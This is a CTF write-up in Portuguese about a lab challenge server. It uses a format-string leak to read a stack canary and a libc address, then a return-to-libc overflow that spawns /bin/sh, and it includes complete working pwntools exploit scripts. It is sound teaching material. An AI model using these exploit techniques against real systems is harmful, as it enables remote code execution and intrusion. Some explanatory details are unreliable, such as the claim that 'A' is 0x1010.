




## CTF EXTRA


### Demos debug ao programa e a função fgets está a ler 100 caracteres, quando supostamente diz que o maximo é 20.
### Tentamos correr o nc e obtivemos isto:


### Confirmando então que está a ocorrer uma string vulnerability.

### Para alem do program tambem nos é dado um ficheiro lib.c. Encontramos um ataque chamado reeturn to libc. Para executar esse ataque precisamosd de:

### Saber o "/bin/sh" usando o segundo comando do print em baixo e depois o system offset usando o primeiro comando.


### Depois disto usamos info pro map com o gdb e encontramos o intervalo onde a libc está mapeada: 0xf7d89000 a 0xf7f2b000

### Para saber que valor está no intevalo epara usá-lo para calcular o offset, criamos um script que dá obtem os valores da stack que foi contruida.

```python
    #!/usr/bin/python3
from pwn import *

LOCAL = False

if LOCAL:
	pause()
else:
	p = remote("ctf-sp.dcc.fc.up.pt", 4002)

for i in range(1,14):
	p.recvuntil(b">")
	p.sendline(b"e")
	p.recvuntil(b"Insert your name (max 20 chars): ")
	p.sendline("%" + str(i) + "$10p")
	answer = p.recvline()
	print("i: ", i, "-> stack", answer)
	p.recvuntil(b"Insert your message: ")
	p.sendline(b"")


p.interactive()

```
### Usando este script encontramos o valor, 0xf7daa519. Offset= 0xf7daa519- 0xf7d89000.

### Usamos o mesmo script para encontrar o canário que acaba sempre em 00 por causa do \0 e vimos que estava no indice 8.




### Finalmente construimos um script:

### Primeiro, para obter o valor do canário (canary) e o endereço de referência da biblioteca libc. Isso é feito para que possamos redefinir o canário, para que ele não seja corrompido, e calcular o endereço da libc com base no deslocamento anterior.
### Em segundo lugar, para sobrescrever o endereço de retorno para a libc que calculamos.

### Por fim, para inserir o caractere ' \0 ' (nulo) para que o canário permaneça intacto.

```python
#!/usr/bin/python3
from pwn import *

LOCAL = False

referenceLibOffset = 0xf7daa519 - 0xf7d89000
systemLibOffset = 0x48150
shLibOffset = 0x1bd0f5

def sendMessage(p, message):
	p.recvuntil(b">")
	p.sendline(b"e")
	p.recvuntil(b"Insert your name (max 20 chars): ")
	p.sendline(message)
	answer = p.recvline()
	p.recvuntil(b"Insert your message: ")
	p.sendline(b"")
	return answer

if LOCAL:
	pause()
else:
	p = remote("ctf-sp.dcc.fc.up.pt", 4002)

firstMessage = sendMessage(p, b"%8$x-%11$x")

canary, referenceVal = [int (val, 16) for val in firstMessage.split(b'-')]

libBase = referenceVal - referenceLibOffset
addressSystem = libBase + systemLibOffset
addressSH = libBase + shLibOffset

secondMessage = flat(b"A"*20, canary + 1, b"A"*8, addressSystem, b"A"*4, addressSH)

sendMessage(p, secondMessage)

sendMessage(p, b"A"*19)

p.interactive()

```
### Adicionamos 1 ao canário ao escrever o secondMessage, caso contrário, ele ainda terminaria com 00 e não poderíamos enviar bytes com valor 0.

### Calculamos o endereço de addressSH e addressSystem com base na libcbase real.

### No final, reescrevemos o canário, adicionando "A" 19 vezes para alcançar o canário e definir seu final como 0. Tenha em mente que "A" é representado por 0x1010.


